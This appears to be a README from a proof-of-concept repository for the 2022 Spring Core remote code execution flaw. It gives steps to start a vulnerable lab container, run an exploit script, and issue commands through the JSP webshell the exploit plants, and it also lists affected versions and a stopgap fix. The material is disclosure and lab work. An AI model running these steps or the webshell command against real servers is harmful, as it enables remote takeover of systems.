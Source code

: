 # How to reproduce
docker run -d -p 8082:8080 --name springrce -it vulfocus/spring-core-rce-2022-03-29

python3 ./exp.py --url http://192.168.0.11:8082

curl --output - "http://192.168.0.11:8082/tomcatwar.jsp?pwd=j&cmd=id"

![vulnerable code + poc](images/exploit.jpg)

# Spring Core RCE

> After Spring Cloud, on 3.29, another major Spring vulnerability was reported online: Spring Core RCE

(Note from craig: Spring Cloud exploit here: https://github.com/hktalent/spring-spel-0day-poc)

## coded poc in circulation
** currently exp has been uploaded ``exp.py`` **
![circulating coded poc](images/poc.png)
![awkward situation](images/img_1.png)

## The official Spring patch is also in active production  
[Link to patches in production for Spring](https://github.com/spring-projects/spring-framework/commit/7f7fb58dd0dae86d22268a4b59ac7c72a6c22529)

## The vulnerability affects
1. jdk version 9 and above
2. using Spring Framework or derivative frameworks
## Vulnerability Fix Recommendations
Currently, Spring has not released a patch, so we recommend lowering the jdk version as a temporary solution.

Translated with www.DeepL.com/Translator (free version)
